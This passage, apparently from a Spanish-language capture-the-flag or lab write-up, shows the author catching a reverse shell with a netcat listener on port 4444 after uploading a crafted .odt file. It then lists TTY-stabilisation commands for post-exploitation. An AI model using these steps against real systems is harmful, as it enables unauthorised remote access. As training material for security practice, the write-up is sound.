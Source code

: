 ![alt text](captura_2025-05-02_17-30-05.png)

Ejecuto el comando nc para escuchar por el puerto 4444.

`nc -lvnp 4444`

Subo el archivo .odt, y después de un par de minutos obtengo la shell.

![alt text](captura_2025-05-02_17-32-17.png)

## Post-Explotación

Ejecuto los siguientes comandos para estabilizar la tty y obtener una shell funcional.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```
